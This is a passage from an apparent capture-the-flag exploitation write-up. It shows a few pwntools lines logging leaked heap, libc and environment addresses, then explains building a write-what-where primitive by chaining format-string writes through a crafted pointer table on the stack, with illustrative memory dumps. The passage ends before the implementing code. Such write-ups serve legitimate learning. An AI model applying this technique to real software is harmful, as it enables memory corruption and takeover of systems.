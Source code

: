```python
log.success('heap base is @ %s' % hex(heap_base))
log.success('libc base is @ %s' % hex(libc_base))
log.success('env is @ %s' % hex(env_base))
```



Wow, that was rough.. And that's only the beginning :smiling_imp:

Now that we are able to loop infinitely in the main function, what can we do next ?



### :dart: Setting up a write-what-where primitive

To make the exploitation more reliable and easier, we can start to set up a write-what-where primitive.

The idea I had is to craft a "pointers table" that will allow us to forge an arbitrary address on the stack by writing consecutive words into the "pointers" table. 

Let's take an example:

I want to write **0xdeadbeefcafebabe** on the stack.

I'll start to craft 4 pointers (starting at `0x7ffcef061048` for example) that will each point to an address part (which will be located at `0x7ffcef061068` for example)

```
0x7ffcef061038:	0x00007ffcef062f7a	0x0000000000000000
0x7ffcef061048:	0x00007ffcef061068	0x00007ffcef06106a
0x7ffcef061058:	0x00007ffcef06106c	0x00007ffcef06106e
0x7ffcef061068:	0x00007ffcef0630c6	0x00007ffcef063104
0x7ffcef061078:	0x00007ffcef063118	0x00007ffcef063145
```

We have:

- `0x7ffcef061048` => `0x00007ffcef061068`
- `0x7ffcef061050` => `0x00007ffcef06106a`
- `0x7ffcef061058` => `0x00007ffcef06106c`
- `0x7ffcef061060` => `0x00007ffcef06106e`



We can then craft our target address `0xdeadbeefcafebabe` word by word, by exploiting the format string 4 times to write a word to `0x00007ffcef061068`, `0x00007ffcef06106a`, `0x00007ffcef06106c` and so on...

```
Write 0xbabe at offset X   => 0x00007ffcef061068:	0x00007ffcef06babe
Write 0xcafe at offset X+1 => 0x00007ffcef061068:	0x00007ffccafebabe
Write 0xbeef at offset X+2 => 0x00007ffcef061068:	0x0000beefcafebabe
Write 0xdead at offset X+3 => 0x00007ffcef061068:	0xdeadbeefcafebabe
```

We will then have our custom address stored at offset `X+4`, which allows us to have an arbitrary write primitive!

Here is the code that is implementing this technique:
